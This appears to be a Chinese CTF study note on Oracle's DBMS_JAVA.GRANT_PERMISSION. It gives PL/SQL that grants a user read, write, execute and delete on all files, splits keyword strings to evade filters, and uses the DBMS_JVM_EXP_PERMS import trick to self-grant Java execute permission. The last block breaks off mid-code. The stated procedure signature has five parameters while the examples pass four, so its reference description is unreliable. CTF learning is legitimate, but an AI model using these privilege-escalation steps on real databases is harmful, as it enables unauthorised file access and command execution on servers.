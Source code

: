 锁定和解锁用户

### dbms_java.grant_permission赋权

在 Oracle 数据库中，`DBMS_JAVA.GRANT_PERMISSION` 是一个过程，用于为 Java 类或资源授予权限。这个过程通常用于在 Oracle 数据库中执行 Java 类的操作时管理 Java 安全性。

```python
DBMS_JAVA.GRANT_PERMISSION(
   grantee         IN VARCHAR2,
   permission_type IN VARCHAR2,
   permission_name IN VARCHAR2,
   permission_path IN VARCHAR2,
   permission_action IN VARCHAR2
);
```

- `grantee`: 授予权限的用户或角色的名称。
- `permission_type`: 权限的类型，通常是 `'java.io.FilePermission'` 或 `'java.lang.RuntimePermission'`。
- `permission_name`: 权限的名称，通常是文件路径（对于文件权限）或操作（对于运行时权限）。
- `permission_path`: 文件路径，仅在 `permission_type` 为 `'java.io.FilePermission'` 时使用。
- `permission_action`: 操作，仅在 `permission_type` 为 `'java.lang.RuntimePermission'` 时使用。

```python
begin
dbms_java.grant_permission('SYSTEM', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'read,write,execute,delete');
end;
/
```

![](./%E4%BA%AC%E9%BA%92CTF%E8%A1%A5%E5%AE%8C%E8%AE%A1%E5%88%92/1703211934218.png#id=d65lm&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)![image.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1703811852970-c025b0f5-580a-4916-9fa8-ab0defda092b.png#averageHue=%23121212&clientId=ueb947172-4289-4&from=paste&height=138&id=uafe78a3a&originHeight=124&originWidth=1068&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=10027&status=done&style=none&taskId=u16414868-74f8-4d0d-9047-bb2638ce0f6&title=&width=1186.6666981025987)
赋予文件访问权限.

 
```python
BEGIN
   DBMS_JAVA.GRANT_PERMISSION('SYSTEM', 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
END;
```

```python
begin
dbms_java.grant_permission('SYSTEM', 'SYS:java.lang.Runt'||'imePermission', 'readFileDesc'||'riptor', '');
end;
```

能够读写

其它的一些

```python
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 'GRANT',USER(),'SYS','java.io.FilePermission','<<ALL FILES>>','execute','ENABLED' FROM DUAL;
BEGIN
OPEN C1;
FETCH C1 BULK COLLECT INTO POL;
CLOSE C1;
DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
END;
/
DECLARE
POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
CURSOR C1 IS SELECT 'GRANT',USER(),'SYS','java.lang.RuntimePermission','writeFileDescriptor',NULL,'ENABLED' FROM DUAL;
```
